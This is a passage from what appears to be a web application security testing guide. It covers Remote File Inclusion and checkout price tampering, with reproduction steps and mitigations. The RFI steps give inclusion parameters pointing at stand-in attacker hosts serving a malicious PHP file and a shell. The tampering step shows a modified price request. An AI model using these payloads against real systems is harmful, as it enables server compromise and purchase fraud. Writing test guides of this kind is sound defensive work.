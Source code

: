 
### 16.2 Remote File Inclusion (RFI)

**Issue Description:**  
Application includes remote files from attacker-controlled servers.

**Steps to Reproduce:**
1. Find dynamic file inclusion
2. Test with remote URLs:
   ```
   include=http://attacker.com/malicious.php
   page=http://evil.com/shell.txt
   ```
3. Host malicious file on your server
4. Check if it's included/executed

**Expected Result:**  
Remote file inclusion should be blocked.

**Mitigation:**
- Disable remote file inclusion
- Validate URLs strictly
- Use whitelist approach
- Implement proper input validation

---

## 17. BUSINESS LOGIC BYPASS

### 17.1 Price Tampering

**Issue Description:**  
Product prices can be manipulated during checkout process.

**Steps to Reproduce:**
1. Add item to cart
2. Proceed to checkout
3. Intercept request in Burp Suite
4. Modify price parameter:
   ```json
   {
     "item_id": "123",
     "price": 0.01,
     "quantity": 1
   }
   ```
5. Complete purchase
6. Check if manipulated price is accepted

**Expected Result:**  
Price should be validated server-side against database.

**Mitigation:**
- Never trust client-side prices
- Validate prices server-side
- Use signed price tokens
- Log price discrepancies
- Implement integrity checks

---
